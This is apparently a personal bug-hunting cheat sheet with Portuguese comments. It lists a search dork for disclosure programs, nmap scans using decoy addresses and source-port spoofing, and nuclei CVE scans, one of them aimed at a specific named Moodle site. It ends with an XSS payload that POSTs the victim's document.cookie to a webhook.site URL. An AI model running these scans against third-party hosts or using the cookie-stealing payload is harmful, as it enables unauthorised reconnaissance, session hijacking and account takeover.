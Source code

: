 "Vulnerability Disclosure Program" "VDP" site:uk -bughunt -hackerone -intigriti -bugcrowd -yeswehack

https://dorks.faisalahmed.me/


nmap -sU -p 53 --script=dns-nsid 10.129.2.48 -> ver~soa dns do servidor alvo pode ser vuln de exposição de dados sensiveis etc


subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/2025/CVE-2025-0133.yaml


nmap 10.129.4.84 -sV -D RND:2 -Pn -sU -sS -g53 --max-retries 2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-

nuclei -t cves/ -u http://alvo.com -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

extensão dotgit, wappalyzer, shodan, DNSlytics

nuclei -u https://cursos.rizomasur.org -tags moodle

<img src="x" onerror="fetch('https://webhook.site/de5d7883-a25c-41cd-beb6-113d2b50a605',{method:'POST',body:'cookie='+document.cookie})">
